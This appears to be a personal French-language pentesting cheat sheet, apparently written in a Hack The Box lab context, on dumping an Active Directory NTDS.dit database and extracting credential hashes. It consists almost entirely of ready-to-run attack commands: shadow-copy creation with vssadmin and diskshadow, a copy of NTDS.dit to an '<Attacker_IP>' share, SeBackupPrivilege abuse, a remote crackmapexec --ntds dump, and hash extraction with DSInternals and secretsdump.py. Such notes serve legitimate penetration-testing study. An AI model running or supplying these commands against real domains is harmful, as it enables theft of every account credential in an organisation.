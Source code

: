 ```yaml
---
public: true
---
```

## Dump d'NTDS.dit
### Localement

#### Cliché instantané (vssadmin)

##### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

##### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

#### Cliché instantanné (diskshadow.exe)

##### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

##### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Privilèges Windows Exploitables]])

```
# Ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### A distance

```
crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds
```

## Extraction des informations d'identification (credentials)

## Localement
### Extraction des informations présentes dans NTDS.dit via DSInternals

```powershell-session
# https://github.com/MichaelGrafnetter/DSInternals/releases/download/v4.12/DSInternals_v4.12.zip
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

### A distance
#### Extraction des hash d'un dump NTDS.dit via secretsdump.py

Prérequis : disposer d'NTDS.dit et du dump SYSTEM via 
```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```